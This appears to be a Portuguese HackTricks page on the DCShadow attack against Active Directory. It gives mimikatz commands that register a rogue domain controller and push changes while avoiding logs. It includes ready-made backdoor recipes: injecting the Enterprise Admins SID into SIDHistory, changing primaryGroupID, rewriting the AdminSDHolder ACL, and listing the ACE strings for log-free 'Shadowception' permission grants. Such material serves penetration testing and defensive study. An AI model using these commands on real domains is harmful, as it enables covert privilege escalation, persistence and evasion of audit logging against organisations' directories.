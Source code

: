 # DCShadow

Ele registra um **novo Controlador de Domínio** no AD e o usa para **inserir atributos** (SIDHistory, SPNs...) em objetos especificados **sem** deixar nenhum **registro** das **modificações**. Você **precisa de privilégios DA** e estar dentro do **domínio raiz**.\
Observe que se você usar dados incorretos, registros bastante feios aparecerão.

Para realizar o ataque, você precisa de 2 instâncias do mimikatz. Uma delas iniciará os servidores RPC com privilégios do SYSTEM (você deve indicar aqui as alterações que deseja realizar), e a outra instância será usada para inserir os valores:

{% code title="mimikatz1 (servidores RPC)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% code title="mimikatz2 (push) - Necessita de DA ou similar" %}{% endcode %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Observe que **`elevate::token`** não funcionará na sessão mimikatz1, pois isso eleva os privilégios da thread, mas precisamos elevar o **privilégio do processo**.\
Você também pode selecionar um objeto "LDAP": `/object:CN=Administrador,CN=Usuários,DC=JEFFLAB,DC=local`

Você pode aplicar as alterações a partir de um DA ou de um usuário com essas permissões mínimas:

* No **objeto de domínio**:
  * _DS-Install-Replica_ (Adicionar/Remover Réplica no Domínio)
  * _DS-Replication-Manage-Topology_ (Gerenciar Topologia de Replicação)
  * _DS-Replication-Synchronize_ (Sincronização de Replicação)
* O objeto **Sites** (e seus filhos) no **contêiner de configuração**:
  * _CreateChild e DeleteChild_
* O objeto do **computador registrado como DC**:
  * _WriteProperty_ (Não Write)
* O **objeto de destino**:
  * _WriteProperty_ (Não Write)

Você pode usar [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) para dar esses privilégios a um usuário sem privilégios (observe que isso deixará alguns logs). Isso é muito mais restritivo do que ter privilégios de DA.\
Por exemplo: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` Isso significa que o nome de usuário _**student1**_ quando conectado na máquina _**mcorp-student1**_ tem permissões DCShadow sobre o objeto _**root1user**_.

## Usando DCShadow para criar backdoors

{% code title="Definir Enterprise Admins em SIDHistory para um usuário" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519 
```
{% code title="Alterar o ID do Grupo Primário (colocar usuário como membro dos Administradores do Domínio)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% code title="Modificar o ntSecurityDescriptor do AdminSDHolder (dar Controle Total a um usuário)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
## Shadowception - Dar permissões DCShadow usando DCShadow (sem logs de permissões modificadas)

Precisamos adicionar os seguintes ACEs com o SID do nosso usuário no final:

* No objeto de domínio:
  * `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;SIDdoUsuário)`
  * `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;SIDdoUsuário)`
  * `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;SIDdoUsuário)`
* No objeto do computador do atacante: `(A;;WP;;;SIDdoUsuário)`
* No objeto do usuário de destino: `(A;;WP;;;SIDdoUsuário)`
* No objeto Sites no contêiner de Configuração: `(A;CI;CCDC;;;SIDdoUsuário)`

Para obter o ACE atual de um objeto: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Observe que, neste caso, você precisa fazer **várias alterações,** não apenas uma. Portanto, na sessão **mimikatz1** (servidor RPC), use o parâmetro **`/stack` com cada alteração** que você deseja fazer. Dessa forma, você só precisará fazer **`/push`** uma vez para executar todas as alterações empilhadas no servidor falso.

[**Mais informações sobre DCShadow em ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Você trabalha em uma **empresa de segurança cibernética**? Você quer ver sua **empresa anunciada no HackTricks**? ou quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!

- Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)

- Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)

- **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Compartilhe suas técnicas de hacking enviando PRs para o [repositório hacktricks](https://github.com/carlospolop/hacktricks) e [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
